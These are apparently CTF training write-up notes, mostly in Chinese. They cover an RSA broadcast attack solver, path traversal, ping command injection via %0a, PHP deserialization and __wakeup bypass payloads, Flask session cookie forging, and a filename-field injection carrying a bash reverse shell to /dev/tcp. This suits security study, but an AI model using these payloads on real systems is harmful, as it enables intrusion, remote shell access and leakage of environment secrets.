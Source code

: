 ## broadcast Problem ID: 52

https://www.ruanx.net/rsa-solutions/  

低加密指数广播攻击

原题：
```python
from Crypto.Util.number import *
import gmpy2
from secret import flag

m = bytes_to_long(flag)
assert m.bit_length() < 240

e = 11
n = [getPrime(256) * getPrime(256) for _ in range(12)]

def enc(i):
    return gmpy2.powmod(m, e, n[i])

with open('enc.txt', 'w') as f:
    for x in range(12):
        f.write(f'{enc(x)} {n[x]}\n')
```

dec:
```python
from Crypto.Util.number import *
import gmpy2
# 中国剩余定理
def crt(n, c):
    N = 1
    for i in n:
        N *= i
    result = 0
    for i in range(len(n)):
        M = N // n[i]
        result += c[i] * M * gmpy2.invert(M, n[i])
    return result % N
res=crt(n, c)
# res 开11次方
res, flag = gmpy2.iroot(res, 11)
print(flag)
print(res)
# res转ascii
print(long_to_bytes(res))
```


---

## 音乐会 Problem ID: 2

![alt text](assets/train2024/image.png)

`GET http://train2024.hitctf.cn:26130/get_resource.php?path=../../../flag.txt`

![alt text](assets/train2024/image-1.png)


## ex-pingping Problem ID: 4

综合过滤练习
组合拳

过滤了 ; 符号，翻看URL编码，%0a可以实现换行，用%0a代替 ; 符号。

http://train2024.hitctf.cn:26846/?ip=%0a env > 1.txt

http://train2024.hitctf.cn:26846/?ip=%0a more index.php 

```php
::::::::::::::
index.php
::::::::::::::
<?php

$res = FALSE;
$no = FALSE;
$waf = FALSE;

if (isset($_GET['ip'])) {
    if (preg_match('/[|&;*]/',$_GET['ip'])) {
        $waf = TRUE;
    }
    else if (preg_match('/base|cat|tac|head|tail|flag/i',$_GET['ip'])) {
        $no = TRUE;
    }
    else {
        $cmd = "ping -c 4 {$_GET['ip']}";
        exec($cmd, $res);
    }
}

?>

<!DOCTYPE html>
<html>
<head>
<script src="https://cdn.jsdelivr.net/npm/jquery@3.7.1/dist/jquery.min.js"></script>
<link rel="stylesheet" type="text/css" href="https://cdn.jsdelivr.net/npm/fomantic-ui@2.9.3/dist/semantic.min.css">
<script src="https://cdn.jsdelivr.net/npm/fomantic-ui@2.9.3/dist/semantic.min.js"></script>
<title>pingping</title>
<style>
    body > .grid {
      height: 100%;
      margin-top: 100px;
    }
    .column {
      max-width: 450px;
    }
    .img1 {
        height: 250px;
        width: 275px;
    }
</style>
</head>
<body>

<div class="ui middle aligned center aligned grid">
<div class="column">

<h2 class="ui teal image header">
    <div class="content">
        Ping一下吧？
    </div>
</h2>

<form action="#" method="GET" class="ui large form initial">
    <div class="ui stacked segment">
    <div class="field">
        <input type="text" id="ip" name="ip" placeholder="IP">
    </div>
    <input type="submit" value="Ping" class="ui primary button">
</div>
</form>

<pre>
<?php
if ($waf) {
    echo "No you bad hacker...<br>";
}
else if ($no) {
    echo "想要flag?<br>";
    echo "<img class='img1' src=/img/agms.jpg>";
}
else if ($res) {
    foreach ($res as $line) {
        if (preg_match('/[{}]/',$line)) die("等等，这输出有问题，你不许读！<br><img src=/img/ask.jpg>");
        echo $line.'<br>';
    }
}
?>
</pre>
</div>
</div>
</body>
</html>
```



绕过应用举例

**当反序列化字符串中，表示属性个数的值⼤于真实属性个数时，会绕过 __wakeup 函数的执⾏。**

漏洞影响范围
PHP5 < 5.6.25
PHP7 < 7.0.10

标准序列化结果

`O:4:"User":2:{s:8:"username";s:4:"Lxxx";s:8:"password";s:4:"lxxx";}`

将2改为3 绕过__Wakeup魔法函数

`O:4:"User":3:{s:8:"username";s:4:"Lxxx";s:8:"password";s:4:"lxxx";}`

————————————————

                            版权声明：本文为博主原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接和本声明。
                        
原文链接：https://blog.csdn.net/eason612/article/details/130607125



## 反序列化

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class evil{
    public $cmd;
    public $a;
    public function __destruct(){
        eval($this->cmd.'114514');
    }
}

if(!preg_match('/^[Oa]:[\d]+|Array|Iterator|Object|List/i',$_GET['Pochy'])){
    unserialize($_GET['Pochy']);
} else {
    die("hacker!");
}
```

`O:4:"evil":1:{s:3:"cmd";s:9:"echo 1;//";}`

`C:8:"SplStack":44:{O:4:"evil":1:{s:3:"cmd";s:12:"phpinfo();//";}`

>很经典不能O,a开头，那我们就C开头，不能有ArrayObject，啧，之前ctfshow学到的没用了，最终发现SplStack这个类也能用，然后就是绕__destruct，也就是只能使用[A-Za-z_\(\)]，最后带个; 怎么把givemegirlfriend! 除掉是个问题，__halt_compiler(); 可以中断编译器的执行，不让eval解析后面的就行了，这里没法用引号，所以得构造无参rce，exp如下：

https://www.cnblogs.com/F12-blog/p/17472787.html


## flask
```shell
flask-unsign --unsign --cookie eyJyb2xlIjoiYW5vbnltb3VzIn0.ZnPqiw.nFlXAccc0v_3qOQU5YqV2yam_tA

flask-unsign --sign --cookie "{'role':'admin'}" --secret 'admin123'
```

## flask 反弹shell

student_id注入

```python 
    old_path = saveTmp(delete=False).name
    file.save(old_path)
    new_path = f"uploads/{name}-{student_id}.zip"
    os.system(f"mv {old_path} {new_path}")
```

```shell
#student_id 
123.zip ; bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/xxxx <&1' #
123.zip ; env > robots.txt #
```